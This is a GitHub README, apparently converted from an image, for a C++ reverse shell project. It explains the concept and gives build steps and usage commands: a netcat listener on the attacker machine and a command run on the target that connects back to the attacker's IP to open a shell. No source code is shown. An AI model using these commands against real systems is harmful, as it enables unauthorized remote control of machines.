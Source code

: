 # Reverse Shell in C++

Welcome to the repository for my Reverse Shell project written in C++. This project demonstrates how to create a reverse shell, a powerful tool for network security testing and educational purposes.

## What is a Reverse Shell?

A reverse shell is a type of shell where the target machine connects back to the attacker's machine. This can be useful in scenarios where the target machine is behind a firewall or NAT and cannot accept incoming connections. Instead, it initiates an outgoing connection to the attacker's machine, allowing the attacker to gain control.
 
## Features

- **Lightweight and Efficient**: The reverse shell is designed to be lightweight and efficient, ensuring minimal resource usage on the target machine.
- **Cross-Platform**: Written in C++, it can be compiled and run on various platforms including Windows, Linux, and macOS.
- **Encrypted Communication**: Ensures that the data transferred between the attacker and the target machine is encrypted.

## How to Build

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/yourusername/reverse-shell-cpp.git
   cd reverse-shell-cpp
Install Dependencies:
Ensure you have a C++ compiler installed (like g++, clang, or MSVC). For example, on Ubuntu, you can install g++ with:

```bash

sudo apt-get install g++
Compile the Code:

```bash

g++ -o reverse_shell reverse_shell.cpp

For Windows, you might use:

```bash

    cl /EHsc reverse_shell.cpp

- How to Use

    Start a Listener on the Attacker Machine:
    You can use netcat to start a listener. For example:

    ``` bash

nc -lvp 4444

Run the Reverse Shell on the Target Machine:
Ensure the target machine can reach the attacker's IP and port. Run the compiled reverse_shell executable:

```bash

./reverse_shell <attacker_ip> <port>

For example:

bash

    ./reverse_shell 192.168.1.10 4444

    Establish Connection:
    Once the reverse shell is executed on the target machine, it will connect back to the attacker's machine, providing a command line interface to the attacker.

Disclaimer

This tool is intended for educational purposes only. Unauthorized use of this tool is illegal and unethical. Always obtain proper authorization before using it in any environment.
